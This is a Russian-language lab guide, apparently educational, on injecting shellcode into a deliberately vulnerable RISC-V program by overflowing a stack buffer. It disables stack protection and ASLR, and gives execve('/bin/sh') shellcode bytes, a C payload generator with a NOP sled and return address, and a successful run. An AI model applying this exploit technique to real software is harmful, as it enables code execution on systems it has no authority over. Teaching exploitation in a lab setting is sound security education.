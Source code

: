 ifdef::env-github[]
:tip-caption: :bulb:
:note-caption: :memo:
:important-caption: :heavy_exclamation_mark:
:caution-caption: :fire:
:warning-caption: :warning:
endif::[]

= Shellcode injection RISC-V
:source-highlighter: rouge
:rouge-style: github
:icons: font
:sectnums:

== Как выполнять

Данный практикум можно выполнять как с использованием плат, так и виртуальных машин.

Сборник программного обеспечения инструментов разработки «Syntacore Early Access Kit» (виртуальная машина и тулчейн) 
https://riscv-alliance.ru/news/alyans-risc-v-dayot-universitetam-dostup-k-resursam-dlya-obucheniya-i-issledovanij/[можно запросить у Альянса RISC-V].

Также можно самостоятельно https://risc-v-getting-started-guide.readthedocs.io/en/latest/linux-qemu.html[настроить RISC-V Linux в QEMU].

Компиляцию и просмотр дизассемблированного кода можно выполнять либо на девайсе (плата/виртуальная машина) нативно, либо используя кросс-тулчейн (в таком случае во всех примерах надо добавить префикс тулчейна, например `riscv64-linux-gnu-`).

== Создадим очень уязвимую программу

[source, c]
----
#include <stdio.h>
#include <unistd.h>

void func() {
     char buf[100];
     read(0, buf, 120); // Тут случится переполнение буфера
     printf("Welcome %s\n", buf);
}

int main() {
    func();
    return 0;
}
----

=== Скомпилируем код (и проигнорируем предупреждения компилятора)

[source, shell]
----
gcc -o vuln -march=rv64gc vuln.c
----

Запустим программу несколько раз и посмотрим на карту адресного пространства (`/proc/<pid>/maps`).

[listing]
----
555560808000-555560809000 r-xp 00000000 fc:01 767245                     /home/ubuntu/vkutuev/vuln
555560809000-55556080a000 r--p 00000000 fc:01 767245                     /home/ubuntu/vkutuev/vuln
55556080a000-55556080b000 rw-p 00001000 fc:01 767245                     /home/ubuntu/vkutuev/vuln
7fff8eb42000-7fff8ec63000 r-xp 00000000 fc:01 259386                     /usr/lib/riscv64-linux-gnu/libc.so.6
7fff8ec63000-7fff8ec64000 ---p 00121000 fc:01 259386                     /usr/lib/riscv64-linux-gnu/libc.so.6
7fff8ec64000-7fff8ec67000 r--p 00121000 fc:01 259386                     /usr/lib/riscv64-linux-gnu/libc.so.6
7fff8ec67000-7fff8ec69000 rw-p 00124000 fc:01 259386                     /usr/lib/riscv64-linux-gnu/libc.so.6
7fff8ec69000-7fff8ec77000 rw-p 00000000 00:00 0
7fff8ec7d000-7fff8ec7f000 r--p 00000000 00:00 0                          [vvar]
7fff8ec7f000-7fff8ec81000 r-xp 00000000 00:00 0                          [vdso]
7fff8ec81000-7fff8ec9f000 r-xp 00000000 fc:01 259331                     /usr/lib/riscv64-linux-gnu/ld-linux-riscv64-lp64d.so.1
7fff8eca0000-7fff8eca2000 r--p 0001e000 fc:01 259331                     /usr/lib/riscv64-linux-gnu/ld-linux-riscv64-lp64d.so.1
7fff8eca2000-7fff8eca4000 rw-p 00020000 fc:01 259331                     /usr/lib/riscv64-linux-gnu/ld-linux-riscv64-lp64d.so.1
7ffff4124000-7ffff4145000 rw-p 00000000 00:00 0                          [stack]
----

[listing]
----
555594712000-555594713000 r-xp 00000000 fc:01 767245                     /home/ubuntu/vkutuev/vuln
555594713000-555594714000 r--p 00000000 fc:01 767245                     /home/ubuntu/vkutuev/vuln
555594714000-555594715000 rw-p 00001000 fc:01 767245                     /home/ubuntu/vkutuev/vuln
7fff9be03000-7fff9bf24000 r-xp 00000000 fc:01 259386                     /usr/lib/riscv64-linux-gnu/libc.so.6
7fff9bf24000-7fff9bf25000 ---p 00121000 fc:01 259386                     /usr/lib/riscv64-linux-gnu/libc.so.6
7fff9bf25000-7fff9bf28000 r--p 00121000 fc:01 259386                     /usr/lib/riscv64-linux-gnu/libc.so.6
7fff9bf28000-7fff9bf2a000 rw-p 00124000 fc:01 259386                     /usr/lib/riscv64-linux-gnu/libc.so.6
7fff9bf2a000-7fff9bf38000 rw-p 00000000 00:00 0
7fff9bf3e000-7fff9bf40000 r--p 00000000 00:00 0                          [vvar]
7fff9bf40000-7fff9bf42000 r-xp 00000000 00:00 0                          [vdso]
7fff9bf42000-7fff9bf60000 r-xp 00000000 fc:01 259331                     /usr/lib/riscv64-linux-gnu/ld-linux-riscv64-lp64d.so.1
7fff9bf61000-7fff9bf63000 r--p 0001e000 fc:01 259331                     /usr/lib/riscv64-linux-gnu/ld-linux-riscv64-lp64d.so.1
7fff9bf63000-7fff9bf65000 rw-p 00020000 fc:01 259331                     /usr/lib/riscv64-linux-gnu/ld-linux-riscv64-lp64d.so.1
7ffff401b000-7ffff403c000 rw-p 00000000 00:00 0                          [stack]
----

Заметим, что
- область памяти, отведённая под стек, защищена от исполнения;
- между запусками адреса поменялись.

Это осложняет проведение атак по переполнению буфера.

=== Избавимся от защиты стека

[source, shell]
----
gcc -o vuln -march=rv64gc -fno-stack-protector -z execstack vuln.c
----

Флаги:
- `-fno-stack-protector` -- отключить проверки переполнений буфера на стеке (скорее всего по умолчанию компилятор проверок не вставляет, но может быть нужным для нестандартно собранного компилятора);
- `-z execstack` -- просим линкер собрать исполняемый файл требующий исполняемый стек.

=== Отключаем https://en.wikipedia.org/wiki/Address_space_layout_randomization[ASLR]


[source, shell]
----
sudo sh -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
----

== Посмотрим на дизассемблированный `vuln`

[source, shell]
----
objdump -d vuln
----

[listing]
----
00000000000006b8 <func>:
 6b8:	7119      addi  sp,sp,-128
 6ba:	fc86      sd    ra,120(sp)
 6bc:	f8a2      sd    s0,112(sp)
 6be:	0100      addi  s0,sp,128
 6c0:	f8840793  addi  a5,s0,-120
 6c4:	07800613  li    a2,120
 6c8:	85be      mv    a1,a5
 6ca:	4501      li    a0,0
 6cc:	f15ff0ef  jal   ra,5e0 <read@plt>
 6d0:	f8840793  addi  a5,s0,-120
 6d4:	85be      mv    a1,a5
 6d6:	00000517  auipc a0,0x0
 6da:	03a50513  addi  a0,a0,58 # 710 <_IO_stdin_used+0x8>
 6de:	f13ff0ef  jal   ra,5f0 <printf@plt>
 6e2:	0001      nop
 6e4:	70e6      ld    ra,120(sp)
 6e6:	7446      ld    s0,112(sp)
 6e8:	6109      addi  sp,sp,128
 6ea:	8082      ret
----

Обратим внимание на то, как устроен кадр стека

`6b8`:: выделение `128` байтов под кадр стека
`6ba`:: сохранение регистра `ra` (адреса возврата, который нам надо подменить) за `120` байтов от вершины стека, т.е. в самом начале кадра стека
`6bc`:: сохранение указателя на предыдущий кадр стека (регистра `s0/fp`) за `112` байтов от вершины стека, т.е. перед адресом возврата
`6be`:: обновление регистра `s0/fp` адресом текущего кадра стека
`6c0`:: вычисление адреса `buf` -- он расположен за `120` байтов до начала кадра

[listing]
----
+-----------+
|           |  <- sp
| 8 байтов  |
+-----------+
|  1 байт   |  <- buf (s0 - 120)
+-----------+
|  1 байт   |  <- buf + 1
+-----------+
|           |
|    ...    |
|           |
+-----------+
|  1 байт   |  <- buf + 99
+-----------+
| 4 байта   |  <- buf + 100
+-----------+
|           |  <- buf + 104 (s0 - 16)
| 8 байтов  |
+-----------+
|     ra    |  <- buf + 112 (s0 - 8)
| 8 байтов  |
+-----------+
----

== Инъекция кода

Мы хотим передать в программу в качестве входа некоторый код, а также, переполнив буфер, заменить адрес возврата на адрес буфера.

[listing]
----
+-----------+
|           |  <- sp
| 8 байтов  |
+-----------+
|           |  <- buf <-----+
|           |               |
|           |               |
|           |               |
|           |               |
|           |               |
|    код    |               |
|  инъекции |               |
|           |               |
|    112    |               |
|   байтов  |               |
|           |               |
|           |               |
|           |               |
+-----------+               |
|  my ra    |  <- buf + 112 |
| 8 байтов  |---------------+
+-----------+
----

=== Код, который хотим выполнить (`shellcode.s`)

[source]
----
addi sp, sp, -8           # выделение места на стеке
li t0, 0x0068732f6e69622f # запись строки "/bin/sh" в регистр t0
sd t0, 0(sp)              # сохранение t0 на вершине стека
mv a0, sp                 # запись адреса строки "/bin/sh" в регистр a0
mv a1, zero               # запись 0 в регистр a1
mv a2, zero               # запись 0 в регистр a2
li a7, 221                # запись номера системного вызова execve в a7
ecall                     # выполнение системного вызова
----

[NOTE]
====
Подробно про соглашение о системных вызовах можно прочитать в мануале -- `man syscall`.

----
Arch/ABI    Instruction           System  Ret  Ret  Error    Notes
                                  call #  val  val2
───────────────────────────────────────────────────────────────────
riscv       ecall                 a7      a0   a1   -
----

----
Arch/ABI      arg1  arg2  arg3  arg4  arg5  arg6  arg7  Notes
──────────────────────────────────────────────────────────────
riscv         a0    a1    a2    a3    a4    a5    -
----

Номера системных вызовов можно посмотреть в файле `/usr/include/asm-generic/unistd.h`.
====

[NOTE]
====
Отметим, что `mv` и `li` -- не инструкции RISC-V.
Это псевдоинструкци.
Ассемблер понимает их и транслирует в машинные инструкции.

Посмотреть, в какие инструкции будет транслирован такой код можно так:

[source, shell]
----
as -o shellcode.o shellcode.s
objdump -d -M no-aliases shellcode.o
----

Например, `mv a0,sp` будет транслирована в `addi a0,sp,0`.
====

Скомпилируем инъекцию и посмотрим на её байтовое представление.

[source, shell]
----
as -o shellcode.o -march=rv64gc shellcode.s
objdump -d shellcode.o
----

Попучаем последовательность байтов, содержащую инъекцию:
`\x61\x11\xb7\x92\x39\x34\x9b\x82\x72\x7b\xb2\x02\x93\x82\xb2\x34\xb6\x02\x93\x82\xf2\x22\x16\xe0\x0a\x85\x93\x05\x00\x00\x13\x06\x00\x00\x93\x08\xd0\x0d\x73\x00\x00\x00`

=== Куда делать возврат?

Чтобы переданный на вход программе код выполнился необходимо провести возврат из функции на адрес `buf`.

Узнать его адрес можно двумя способами.

. Добавить в `func` строку `printf("%p\n", buf);`, которая распечатает адрес `buf`.
Этот способ даст точный адрес (но способ скучный).
. Спомощью отладчика определить значение `s0 - 120` при выполнении `func`.
[listing]
----
gdb -q vuln
(gdb) b func
(gdb) r
(gdb) p $s0 - 120
----
Этот способ даст неточный адрес, который потом надо будет подкорректировать (но способ интереснее).

Т.к ASLR выключен, то адрес не будет меняться от запуска к запуску.

[INFO]
====
В моём случае адрес возврата получился `0x7ffffffff8a8`.

В вашем случае адрес возврата может отличаться, поэтому в дальнейших шагах используйте его.
====

=== Сформируем вход для `vuln`

Вход будет состоять из 5 частей

. `54` байта: `27` псевдоинструкций `nop` (`\x01\x00`).
Нужны чтобы в случае, если чуть-чуть не угадали адрес возврата повысить шанс успешности атаки.
. `42` байта: внедряемый код.
. `16` байтов: `8` псевдоинструкций `nop` (`\x01\x00`).
Нужны, чтобы запись строки `"/bin/sh"` на стек не перетёрла инструкции инъекции.
. `8` байтов: адрес возврата.
. Остальная часть стандартного входа, которая после запуска `/bin/sh` будет передана в него.
Например, строка `"echo Hacked"`.

Напишем и скомпилируем программу `injection_input.c`, которая будет печатать эти байты.

[source, c]
----
#include <stdio.h>

int main() {
	// nop
	for (int i = 0; i < 27; ++i) {
		putchar('\x01');
		putchar('\x00');
	}

	// injection
	printf(
	 "\x61\x11"
	 "\xb7\x92\x39\x34"
	 "\x9b\x82\x72\x7b"
	 "\xb2\x02"
	 "\x93\x82\xb2\x34"
	 "\xb6\x02"
	 "\x93\x82\xf2\x22"
	 "\x16\xe0"
	 "\x0a\x85"
	);
	printf("\x93\x05");
	putchar('\x00');
	putchar('\x00');
	printf("\x13\x06");
	putchar('\x00');
	putchar('\x00');
	printf("\x93\x08\xd0\x0d");
	putchar('\x73');
	putchar('\x00');
	putchar('\x00');
	putchar('\x00');

	// nop
	for (int i = 0; i < 8; ++i) {
		putchar('\x01');
		putchar('\x00');
	}
	
	// return address
	printf("\xa8\xf8\xff\xff\xff\x7f");
	putchar('\x00');
	putchar('\x00');

	printf("echo Hacked\n");
	return 0;
}
----

Скомпилируем её.

[source, shell]
----
gcc -o injection_input injection_input.c
----

== Запустим `vuln` передав ей сформированный вход

[source, shell]
----
./injection_input | ./vuln
----

И видим, что `sh` выполнил переданную ему команду.

[listing]
----
Welcome
Hacked
----
